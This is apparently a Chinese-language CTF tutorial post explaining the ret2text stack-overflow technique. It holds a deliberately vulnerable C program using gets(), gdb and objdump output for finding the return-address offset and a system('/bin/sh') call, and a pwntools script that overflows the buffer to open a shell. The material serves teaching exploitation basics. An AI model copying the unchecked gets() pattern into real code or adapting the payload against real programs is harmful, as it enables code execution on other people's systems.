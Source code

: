 ```yaml
---
title: ret2text攻击技术示例
time: 2017-08-03
tags: [CTF, pwn, stackoverflow]
layout: post
categories: posts
---
```


# 什么是ret2text？

ret2text是指return to text，意思就是通过向缓冲区填入过多的数据，导致缓冲区溢出，覆盖了返回地址(return address)，返回到程序某处可以被利用的代码后，达成相应的目的，也就是获取了程序中任意地址处代码执行的能力。

ret2text是最简单的栈溢出漏洞利用技术，不需要太多的技术基础就可以进行利用。

# ret2text示例代码

```c
//gcc -m32 -fno-stack-protector ret2text.c -o ret2text
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));
    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh"); /* [1] */

}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf); /* [2]  */
    printf("Maybe I will tell you next time !");

    return 0;

}
```

本节示例的漏洞程序也可以从该处下载：[ret2text](/files/ret2text)

# 漏洞分析

main函数里使用了不安全的gets()函数，因为没有对输入字符长度进行检查，所以会导致缓冲区溢出。我们的思路就是输入过长的数据，使buf溢出，覆盖了main函数的返回地址，并在返回地址处修改为system("/bin/sh")代码处的地址，这样当main函数返回，程序就会跳转到system("/bin/sh")处获取一个shell，从而完成攻击。

我们用gdb挂起程序，逐步调试。

```asm
    0x804869b <main+83>:	mov    DWORD PTR [esp],0x804876c
    0x80486a2 <main+90>:	call   0x8048480 <puts@plt>
    0x80486a7 <main+95>:	lea    eax,[esp+0x1c]
=>  0x80486ab <main+99>:	mov    DWORD PTR [esp],eax
    0x80486ae <main+102>:	call   0x8048460 <gets@plt>
    0x80486b3 <main+107>:	mov    DWORD PTR [esp],0x80487a4
    0x80486ba <main+114>:	call   0x8048450 <printf@plt>
    0x80486bf <main+119>:	mov    eax,0x0
```
执行到0x80486a7处，使用eax存储了buf的首地址，之后在0x80486ab处将eax的值压入栈中，这里我们查看eax寄存器的值为*0xffffcd1c*。同时我们观察，此时buf首地址处于栈顶，那我们来查看以下ebp寄存器的值，值为*0xffffcd88*，而ebp再下面即是返回地址，因此我们可以得出从buf首地址到返回地址之间的距离为
```python
0xffffcd88 - 0xffffcd1c + 0x04 = 0x70
```
同时我们需要查看 *system(/bin/sh)*的地址
```bash
objdump -d ret2text
```
找到system()调用的代码处

```asm
804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
```
我们只要将返回地址覆盖为*0x804863a*便可获取一个shell

# 攻击代码

```python
from pwn import *
io = process('ret2text')
system_addr = 0x804863a
payload = ''
payload += 'A' * (0xffffcd88 - 0xffffcd1c + 0x04 )
payload += p32(system_addr)
io.sendline(payload)
io.interactive()
```
